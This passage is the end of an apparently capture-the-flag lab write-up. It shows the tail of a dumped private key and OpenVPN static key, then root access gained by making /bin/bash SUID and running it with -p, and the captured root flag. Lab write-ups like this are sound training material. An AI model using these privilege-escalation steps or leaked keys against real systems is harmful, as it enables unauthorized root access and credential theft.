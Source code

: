 ```console
B7v2lxW4Ki0jxJ45KANuR1YN2MbqQioiMvLtvOGZvPN5hsp9fJG7hn92yVFZY7E2
Lmv+vLcwdQKBgFXLy9RZllz59sbqPAKS8ITT6HjLFzq4NjJt8ZYPWtiJDGrnQL9X
qeA4Lg3KtgNZZshzRyMBvZptZnd9Xu8IsgSLcZCA3ybSQoA4bGKOa022L0SUwmKg
gE1LhTkwTylecNliifICz9uj7Jthmf4je8efpKzEtRen+ZTcgJtQ3MedAoGBAKXa
Za4eEh2QEAtozCRmhMqeTN4GNVh2y5MJglv/jD9XAc1WnDevo0HJE1pCvItW83L+
Ci1appICF/7qeleBn6BrmErUp3dVcczEt+Hq+awNnatHIThqwAEF6mV4ydtMcRpD
sCu4JpWhv2bbbEzi9dl6adoC5vXqEKRctwRykeftAoGAJsCI8/kS6K5xxEKVFC9k
JP7cHqmyF6r3QatVxTQZQUxBnlqI6Vhmli4oJXugiS6zfXhJpiiN+w7fmWr1YoW5
XY6xUMI5gwI58j8THxRDkWevUep70QqavhNMMNV4OhnJsXzEQk/ZVhOr2Z0OSBCR
21vYU6Kda7uPnIbfzPuJehI=
-----END PRIVATE KEY-----
</key>
key-direction 1
<tls-auth>
#
# 2048 bit OpenVPN static key
#
-----BEGIN OpenVPN Static key V1-----
09a194dc6aee4ae65459c682cc0b25e9
43e54d75dd1d83653ef04a67c65177da
98df768c86585611755082c6b06da8d9
21a4e3afd8d4537c3be9cf3c91a31ddd
157c9ff3f99c5f098ca8be7fe4e01435
86ac1e6b62d126d9f31bf603cd822e26
4a0dfdcb5aa5e66d97cd7b338e7dc07a
62a7691b4fc80830c169f27486f9f22e
4b71185dda7c5adac7ed55b80190dd35
3ec31228f556903d23dbf12d3928578d
c7fe5488d77ab72a0f50ae8d975af87e
ec0dbce0f9f7bf2c01aff9c9cf4fcc99
aaca4a1e81a0a240565c356cd33c6163
f7d986e0395ea90a439b176542a42009
2aafeb626aadb6abc35fa023426c9334
ea5f5af8329f367f112599f3e668bd7a
-----END OpenVPN Static key V1-----
</tls-auth>
create->CN=
# exit
```

Now **/bin/bash** has SUID privileges.

```console
www-data@pki:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
www-data@pki:/tmp$ /bin/bash -p
bash-4.4# whoami
root
```

Machine pwned, we see the root flag.

```console
bash-4.4# cd /root
bash-4.4# cat root.txt
b3298f99ac5999202090829ed5fa9fb6
bash-4.4# 
```

### Conclusion

This was my first hard box, got me a while stucked in some parts but always is good to get out from comfort zones. There were really nice things on this box like by passing 2FA Authentication, pivoting, static routes, etc. Hope this write up was useful to you. See ya!
